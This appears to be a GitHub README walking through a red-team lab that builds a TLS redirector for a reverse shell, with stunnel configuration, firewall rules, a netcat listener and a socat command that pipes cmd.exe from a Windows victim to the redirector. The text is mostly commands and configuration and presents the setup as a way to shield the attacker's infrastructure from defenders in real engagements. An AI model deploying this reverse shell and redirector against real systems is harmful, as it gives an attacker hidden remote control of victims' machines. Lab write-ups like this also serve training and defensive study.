


# TLS_redirect
## Simple resilient TLS reverse shell architecture

Here I will illustrate how to implement a simple but effective Redteam architecture to serve a reverse shell. Following the diagram:
<br><br>
I set up my ParrotOS VM to perform a TLS redirect to a CentOS server that acts as attacker. Since in a real engagment it is probable that the front end will be <i>burnt</i>, using this simple approach can save the attacker business logic and protect our <i>weapons</i>, making the things a bit harder for the blue teamers buddies :) <br> In this scenario we can expose only the server that acts as redirector with a public IP, of course once the front end is burnt probably even the public IP will suffer the same fate and that's no good since the scarcity of them. Some useful resources to check IP reputation:
- https://ipremoval.sms.symantec.com
- https://www.ip-finder.me/ip-full-list
Eventually we can concetrate our effort in hardening the CentOS server (attacker), in this example I have only put in place a firewall. So recalling the roles of the play we have:
1. Win10Pro machine with AV and firewall in place. The payload will be a simple socat openssl reverse shell
1. Parrot OS machine with Stunnel service that will redirect the incoming TLS connection to...
1. Attacker machine, a CentOS 8 server that will get the reverse shell not encrypted
### LAB configuration

#### Victim machine. 
- IP 192.168.1.6

Download the compiled socat for windows from here: https://github.com/zinzloun/TLS_redirect/raw/main/socat-1.7.3.2-1-x86_64.zip. Unzip the file and move the unzipped folder where you prefer, of course the folder is the position from where we will execute our payload. For convenience I put the folder into the enviroment PATH variable

#### TLS redirector
- Dual homed
  - IP 192.168.17 that acts as public interface
  - IP 10.0.2.5 that acts as internal interface

Here install Stunell and configure to forward the traffic to the attacker machine using netcat. I will skip the part about how to create a self signed certificate, just browse the web. The configuration is self explanatory:
  ```
  sudo apt install stunnell4
  cat /etc/stunnel/stunnel.conf 
  [nc]
  client = no
  accept = 443
  connect = 10.0.2.10:6666
  cert = /etc/stunnel/stunnel.pem
  ```
  Now lunch the service and check it out:
```
  service stunnel4 start 
  netstat -tulpn | grep 443
  tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      4687/stunnel4       
```
#### The attacker machine
- IP 10.0.2.10

Here I had to install netcat:
```
sudo yum install nc
```
Then I configured the firewall to allow incoming connection from the redirector as follows:
```
sudo firewall-cmd --new-zone=redPar --permanent
sudo firewall-cmd --reload
sudo firewall-cmd --zone=redPar --add-source=10.0.2.5/32 --permanent
sudo firewall-cmd --zone=redPar --add-port=6666/tcp --permanent
sudo firewall-cmd --reload
```
Verify the configuration:
```
 sudo firewall-cmd --zone=redPar --list-all
  redPar (active)
    target: default
    icmp-block-inversion: no
    interfaces:
    sources: 10.0.2.5/32
    services:
    ports: 6666/tcp
    protocols:
    masquerade: no
    forward-ports:
    source-ports:
    icmp-blocks:
    rich rules:
```
Eventually to delete the zone issue:
```
sudo firewall-cmd --permanent --delete-zone=redPar
sudo firewall-cmd --reload
```
Finally lunch the listener:
```
sudo nc -lvp 6666
```

## Verify
On the Win victim machine lunch the socat TLS reverse shell as follows:
```
socat OPENSSL:192.168.1.7:443,verify=0 EXEC:'cmd.exe',pipes
```
The flow is the follows where (1) is the victim, (2) is the redirector and (3) is the attacker:
<br><br>

We can inspect the traffic usign Wireshark*:
<br><br>

## Conclusion

This is a simple architecture that would require a little built effort, a trusted public IP and eventually a valid TLS certificate are necessarty to work better, even if the last one is not a strict requirement as long as we are able to bypass the certificate validation on the victim, like in this scenario. Of course if the redirector is compromised it can reveal the private IP address of the attacker but since this is not public one it can be easely changed. In a real engagment of course we have to hardening even the redirector leaving open on the public interface only the port 443, the managmente will be performend throught the private interface. At least a host firewall is stongly recommended even on the redirector.

---
**NOTE**
###### *If your Lab (as mine) is created using a virtualizer (e.g. Virtualbox) remember that you can not itercept any traffics with a bridged mode network configuration on the host machine, since it bypass the host OS network stack entirely. Here I'm running Wireshark on the guest Parrot OS redirector*
---
